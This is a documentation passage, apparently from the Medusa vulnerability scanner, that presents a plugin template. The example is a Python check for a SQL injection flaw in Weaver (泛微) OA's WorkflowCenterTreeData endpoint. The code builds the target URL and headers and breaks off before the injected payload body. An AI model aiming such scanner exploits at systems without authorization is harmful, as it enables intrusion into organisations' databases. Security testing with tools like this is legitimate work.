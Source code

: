## 插件模板

以最新的```泛微OA```插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
注意！只能对oracle数据库起作用
'''
__author__ = 'Ascotbe'
__times__ = '2019/10/13 22:12 PM'
import urllib.parse
import requests
import ClassCongregation
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="0" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['createDate'] = "2019-10-13"  # 插件编辑时间
        self.info['disclosure']='2019-10-13'#漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "Weaver_WorkflowCenterTreeDataInterfaceInjectionVulnerability"  # 插件名称
        self.info['name'] ='泛微OA_WorkflowCenterTreeData接口注入漏洞' #漏洞名称
        self.info['affects'] = "泛微OA"  # 漏洞组件
        self.info['desc_content'] = "泛微OA_WorkflowCenterTreeData接口注入漏洞"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['suggest'] = "尽快升级最新系统"  # 修复建议
        self.info['version'] = "xxx版本-xxx版本"  # 这边填漏洞影响的版本
        self.info['details'] = Medusa  # 结果

def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port

def medusa(Url,RandomAgent,ProxyIp):

    scheme, url, port = UrlProcessing(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    global resp
    global resp2
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url +":"+ str(port)+ payload


        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }

        s = requests.session()
        if ProxyIp!=None:
            proxies = {
```
